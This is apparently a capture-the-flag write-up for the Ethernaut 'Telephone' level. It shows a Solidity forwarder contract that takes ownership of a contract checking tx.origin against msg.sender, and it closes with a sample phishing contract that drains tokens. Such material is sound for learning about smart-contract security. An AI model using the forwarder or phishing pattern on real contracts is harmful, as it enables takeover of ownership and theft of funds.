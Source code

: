# 4. Telephone
**Claim ownership of the contract below to complete this level.**

```
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

create a forwarding function to so tx.owner != msg.sender

TelephoneForwarder.sol
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneForwarder {
    address telephoneAddress;
    
    function setTelephoneAddress(address _telephoneAddress) public {
       telephoneAddress = _telephoneAddress;
    }
    
    function _changeOwner(address _owner) public {
        ITelephone(telephoneAddress).changeOwner(_owner);
    }
    
}
```

first
call setTelephoneAddress(instance contract address)
then
call _changeOwner(player wallet address)

**END**

	Level completed!

	Difficulty 1/10

	While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

	An example of a possible attack is outlined below.

		Use tx.origin to determine whose tokens to transfer, e.g.

	function transfer(address _to, uint _value) {
	  tokens[tx.origin] -= _value;
	  tokens[_to] += _value;
	}

		Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

	function () payable {
	  token.transfer(attackerAddress, 10000);
	}

		In this scenario, tx.origin will be the victim's address (while msg.sender will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

